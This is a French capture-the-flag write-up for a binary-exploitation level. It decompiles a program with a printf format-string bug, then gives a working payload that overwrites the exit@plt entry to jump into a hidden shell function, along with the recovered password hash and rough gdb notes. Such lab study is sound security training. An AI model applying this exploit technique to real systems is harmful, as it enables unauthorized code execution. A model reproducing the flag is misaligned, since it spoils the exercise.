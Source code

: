 # Rapport CTF - [Level05]

### Observation :
En arrivant sur le level4 on trouve un executable nommé level4.\
Quand nous essayons de le lancer avec un argument le programme nous renvois juste notre propre chaine de caractere puis se ferme, comme sur le level precedant. \
Regardons donc avec gdb ou un decompilateur.


### Explication de Code :
En lancant le binaire dans hex-ray ou ghidra nous obtenons :
```c
void __noreturn o()
{
  system("/bin/sh");
  _exit(1);
}
// 80484A4: using guessed type void __noreturn o();

//----- (080484C2) --------------------------------------------------------
void __noreturn n()
{
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  exit(1);
}

//----- (08048504) --------------------------------------------------------
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  n();
}
```
Nous pouvons voir une fonction non utiliser `o()` qui nous permet d'acceder a un shell. \
Le but est de jump dans cette fonction en utilisant printf.


### Solution :

On fait la commande suivante pour obtenir le flag :
```sh
(python -c "print('\x38\x98\x04\x08' + 'A'*4 + '\x39\x98\x04\x08' + 'A'*4 + '\x3a\x98\x04\x08' + '%8.x'*3 + 'A'*120 + '%n' + '%992.x' + '%n' + '%896.x' + '%n')"; echo "cat /home/user/level6/.pass") | ./level5
```

### Resultat :
```sh
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```


printf adrr = 0x8048380 = \x80\x83\x04\x08 

mon print est a +4 de 200 donc a 4 classic

premierre condition a modif = 0x804984c = │0x8048427 <__do_global_dtors_aux+7>     cmpb   $0x0,0x804984c          = \x4c\x98\x04\x08        
                                                                                                    │
v0 = 0x8049850 = eax


changer l adresse de dtor end  /// ou changer dtor_idx_6161 en negatif 

changer la condition pour que elle soit == 0
ensuite il faut changer la redirection du jump du compare vers le call de notre function o
set variable;

call exit = 0xe8    0xcc    0xfe    0xff    0xff 

0x100909a8 - 0x80484a5 

call ret= 269027752 new = 0x10090a07 = 269027847 new = 269027849
function o = 134513829
diff = 134513923


269027752 - 134513829 = 134513923 = 94


134513923 - 134513829 = 94

temp  + 134514017

0x8048503

0x8048505

0x8048504 - 0x80484a4 = 0x60
134513924 - 134513828 

set variable *(long*)0x8048500=-96

\x00\x85\x04\x08

FFA0

0x80484ff
232 

x 0x80484c2 = 0x81e58955

0x81e58955 - 0x80484c2 = 0x79E10493



change dtor list en raoutant -1 
ensuite add le pointer de function sur _DTOR_LIST__[v0 + 1]



outils:
	https://hex-works.com/

observations:
	Il y a une fonction <o> qui execute "/bin/sh"
	Probablement modifier la stack de printf pour changer son addresse de retour vu que nous n'avons pas d'insttuction de retour
	dans les autres fonctions (ca va etre fastidieux)
	Appel a fonction <exit> et fonction <_exit>

strategie:
	modifier l'operation de saut de la fonction d'appel cour <exit> pour pointer vers la fonction <o> 		

cmd gdb:
	p o
	 `-> $9 = {<text variable, no debug info>} 0x80484a4 <o>
	info address exit@plt
	 |-> Symbol "exit@plt" is at 0x80483d0 in a file compiled without debugging.
	 |
	 `-> La premiere ligne de la fonction ressemble a ca : (jmp *0x8049838)


solution:
	Je vais modifier l'addresse a laquelle l'operation jmp va dans la memoire pour pointer vers l'addresse de la fonction <o>

cmd:
	(python -c "print('\x38\x98\x04\x08' + 'A'*4 + '\x39\x98\x04\x08' + 'A'*4 + '\x3a\x98\x04\x08' + '%8.x'*3 + 'A'*120 + '%n' + '%992.x' + '%n' + '%896.x' + '%n')"; echo "cat /home/user/level6/.pass") | ./level5

pass:
	d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
